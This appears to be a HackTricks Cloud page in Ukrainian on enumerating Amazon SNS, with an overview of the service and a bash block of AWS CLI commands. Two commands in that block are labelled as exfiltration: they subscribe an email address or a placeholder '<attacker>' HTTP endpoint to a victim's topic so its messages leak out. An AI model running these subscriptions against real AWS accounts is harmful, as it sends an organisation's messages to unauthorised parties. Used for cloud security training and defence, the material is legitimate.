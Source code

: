 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) описується як **повністю керована служба обміну повідомленнями**. Вона підтримує як **додаток-додатку** (A2A), так і **додаток-людина** (A2P) типи комунікації.

Ключові особливості для A2A комунікації включають **механізми публікації/підписки (pub/sub)**. Ці механізми вводять **теми**, які є критично важливими для забезпечення високої пропускної здатності, **пуш-орієнтованого, багато до багатьох обміну повідомленнями**. Ця функція є надзвичайно вигідною в сценаріях, що включають розподілені системи, мікросервіси та архітектури безсерверних подій. Використовуючи ці теми, системи видавців можуть ефективно розподіляти повідомлення на **широкий спектр систем підписників**, полегшуючи патерн обміну повідомленнями fanout.

### **Різниця з SQS**

**SQS** є **черговою** службою, яка дозволяє точкову комунікацію, забезпечуючи обробку повідомлень **одиничним споживачем**. Вона пропонує **доставку принаймні один раз**, підтримує стандартні та FIFO черги, а також дозволяє зберігання повідомлень для повторних спроб і затриманої обробки.\
З іншого боку, **SNS** є **службою на основі публікації/підписки**, що дозволяє **один до багатьох** комунікацію, транслюючи повідомлення **багатьом підписникам** одночасно. Вона підтримує **різні кінцеві точки підписки, такі як електронна пошта, SMS, функції Lambda та HTTP/HTTPS**, і надає механізми фільтрації для цільової доставки повідомлень.\
Хоча обидві служби дозволяють декомпозицію між компонентами в розподілених системах, SQS зосереджується на черговій комунікації, а SNS підкреслює подієву, fan-out комунікацію.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Зверніть увагу, що якщо **тема є типу FIFO**, можуть бути використані лише підписники, які використовують протокол **SQS** (HTTP або HTTPS не можуть бути використані).

Також, навіть якщо `--topic-arn` містить регіон, переконайтеся, що ви вказали правильний регіон у **`--region`**, інакше ви отримаєте помилку, яка виглядає так, ніби ви не маєте доступу, але проблема в регіоні.
{% endhint %}

#### Неавтентифікований доступ

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Підвищення привілеїв

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Після експлуатації

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Постійність

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Посилання

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

